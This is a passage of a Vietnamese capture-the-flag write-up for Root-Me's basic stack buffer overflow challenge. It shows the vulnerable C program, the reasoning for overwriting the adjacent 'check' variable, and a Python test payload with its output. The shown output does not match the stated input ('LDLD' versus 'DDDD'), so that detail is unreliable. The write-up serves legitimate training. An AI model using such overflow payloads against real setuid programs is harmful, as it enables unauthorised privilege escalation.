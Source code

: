 # Co-che-hoat-dong-cua-ma-doc - challenge 1 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 1 :  ssh -p 2222 app-systeme-ch13@challenge02.root-me.org
```

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:

```C
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
Rõ ràng ta thấy để vào được shell bằng câu lệnh:
```C 
system("/bin/bash"); 
``` 
thì ta cần biến check có giá trị là 0xdeadbeef, mặt khác ở hai câu lệnh 
```C   
printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check); 
``` 
ta thấy chương trình sẽ in ra hai giá trị của buf và check, cho nên ta sẽ nghĩ tới việc ghi đè giá trị buf qua giá trị check ở trong bộ nhớ.
Mặt khác, vì biến buf được cấp bộ nhớ là 40 bytes cho nên trước hết ta sẽ ghi đầy 40 bytes này, sau đó ghi tiếp các bytes khác, các bytes này sẽ tiếp tục ghi lấn tới và ghi đè lên vùng nhớ của biến check, ta thử in 40 kí tự A và thêm 4 kí tự LDLD vào thì ta thấy biến buf và check có giá trị như sau:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'LDLD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x44444444

You are on the right way!
```
Một dữ kiện nữa là giá trị cần ghi là 0xdeadbeef
